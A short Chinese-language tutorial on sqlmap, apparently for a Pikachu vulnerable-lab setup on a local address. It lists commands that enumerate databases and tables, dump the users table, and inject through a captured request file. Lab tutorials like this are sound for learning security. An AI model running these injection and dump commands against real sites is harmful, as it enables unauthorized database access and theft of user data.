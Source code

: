 ### sqlmap的使用

sqlmap 是一款自动化的 sql注入工具，安装 kali 会自带该工具；

不会安装 kali 可以访问这个视频：[【星落】VMware安装kali虚拟机并设置中文语言](https://www.bilibili.com/video/BV1CZ4y167iX/?vd_source=8fa3d847651af32d58750a4129f62419) 

常用命令：

```bash
sqlmap -u "http://192.168.31.195/pikachu/vul/sqli/sqli_str.php?name=kobe&submit=%E6%9F%A5%E8%AF%A2" --current-db
# 爆出当前数据库名称

sqlmap -u "http://192.168.31.195/pikachu/vul/sqli/sqli_str.php?name=1%27%23&submit=%E6%9F%A5%E8%AF%A2" --dbs
# 爆出所有数据库名称

sqlmap -u "http://192.168.31.195/pikachu/vul/sqli/sqli_str.php?name=kobe&submit=%E6%9F%A5%E8%AF%A2" -D pikachu --tables
# 爆出当前数据库中所有表名称

sqlmap -u "http://192.168.31.195/pikachu/vul/sqli/sqli_str.php?name=kobe&submit=%E6%9F%A5%E8%AF%A2" -D pikachu -T users --dump
# 爆出 pikachu 库中 users 数据表中的所有数据

sqlmap -r "1.txt" --current-db
# 根据请求头爆出当前数据库
```
> 参数介绍：
>
> -u	注入的 url；
>
> -D	注入的数据库名称；
>
> -T	注入的数据表名称；
>
> -r	 根据请求头注入；
>
> 当注入点使用 post 请求时，首先通过 BurpSuite 进行抓包，并将抓到的请求头复制到 kali 中，再使用命令即可开始注入；


更多命令请查看官方文档：[官方文档](https://github.com/sqlmapproject/sqlmap/wiki/Usage)



仅供学习交流使用~
